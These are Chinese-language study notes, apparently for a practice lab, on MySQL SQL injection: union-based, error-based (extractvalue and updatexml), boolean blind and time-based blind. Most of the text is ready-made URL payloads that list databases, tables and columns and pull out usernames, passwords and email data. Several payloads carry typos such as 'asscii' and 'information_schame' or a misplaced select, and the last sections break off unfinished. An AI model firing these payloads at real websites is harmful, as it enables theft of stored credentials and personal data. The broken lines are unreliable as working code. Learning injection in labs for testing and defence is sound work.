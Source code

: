 ## SQL注入之MySQL

### 一、联合注入
联合查询就是SQL语法中的union select语句。该语句会同时执行两条select语句，生成两张虚拟表，然后把查询到的结果进行拼接。</br>
select ~~~~~~ union select~~~~~~</br>
由于虚拟表是二维结构，联合查询会“纵向”拼接，两张虚拟的表。</br></br>
 **-- （1）判断注入点**
我们在可能存在SQL注入变量的后边添加以下payload：
```text
and 1=1 / and 1=2     --回显页面不同(整形判断) 
单引号判断‘            --显示数据库错误信息或者页面回显不同(整形,字符串类型判断) 
 \                    --(转义符) 
-1/+1                 --回显下一个或上一个页面(整型判断)
```
**-- （2）判断注入点为整型还是字符型**</br>
```text
输入and 1=1和and 1=2后发现页面没有变化，判断不是整型注入。</br>
输入’ and 1=1 %23和 ‘ and 1=2%23后发现页面变化，判断为字符注入。</br>
```
**-- （3）使用order by推断字段数，即表中列的数量**
 ```text
order by 4%23        查看页面变化，页面报错说明没有4列，没有保存说明有4列，继续下一个数字的尝试
```
**-- （4）使用union，确认显示位，即会显示的字段**
 ```python
id=-1' union select 1,2,3    查看页面显示1,2,3的位置，即显示位
```
**-- （5）获取数据库名**
 ```python
id=-1' union select 1,database(),3--+      我们得出了数据库名叫security
```
**-- （6）获取数据库表名**
 ```python
id=-1' union select 1,(select table_name from information_schema.tables where table_schema='security' limit 3,1),3
```
**-- （7）获取数据库表中所有字段**
 ```python
id=-1'union select 1,(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),3
```
**-- （8）获取字段中数据**
 ```python
id=-1' union select 1,select( username from users limit 1,1),(select password from users limit 1,1)
```
### 二、报错注入
<font color=#FF000 >1、使用extractvalue函数</font></br>

**-- （1）查询数据库名字（用户user()；版本version()）**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```
**-- （3）查询数据库的表名，limit后面第一个数字表示第几个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23
```
<font color=#FF000 >2、使用updatexml函数</font></br>

**-- （1）查询数据库名字，数据库名字为security（用户user()；版本version()）**
```Python
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23		
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23	
```
**-- （3）查询数据库的表名，limit后第一个数字表示第几个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23	
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23	
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23	
```



### 三、布尔盲注
**-- 1#获得数据库名长度为8**
```Python
?id=1' and (length(database())=8)%23		#有回显
```
**-- 2#获得数据库名**
```Python
?id=1' and ascii(substr(database(),1,1))<100 %23		#无回显
?id=1' and ascii(substr(database(),1,1))=115 %23		#有回显
```
**-- 3#获得数据库表名个数**
```Python
?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4%23	#有回显
```
**-- 4#获得数据库表名长度**
```Python
?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6%23	
```
**-- 5#获得数据库表名**
```Python
?id=1' and ascii((substr ((select table_name from information_schema.tables where table_schema=database() limit 0,1),0,1)))=106%23
```
**-- 6#获取列名**</br>

**-- 7#获得数据**

### 四、时间盲注
**1#获得数据库名长度**
```Python
?id=1' and if((length(database())>5),sleep(5),1)%23	    #有时间延迟，说明判断正确
?id=1' and if((length(database())>9),sleep(5),1)%23	    #无时间延迟，说明判断错误
?id=1' and if((length(database())>5),1,sleep(5))%23	    #无时间延迟，说明判断正确
```
**2#获得数据库名**
```Python
?id=1' and if((ascii(substr(database(),1,1))>100,sleep(5),1))%23		#有无回显
```
**3#获得表名（同理先获取长度）**
```Python
?id=1' and if((asscii(substr((select table_name from information_schame.tables where table_schame=database() limit 0,1),1,1)))>100,sleep(5),1)		#有无回显
```
**4#获取数据库列名（先拿列长度？）**
```Python
?id=1' and if
```
**5#获取数据**
```Python
?id=1' and if
```
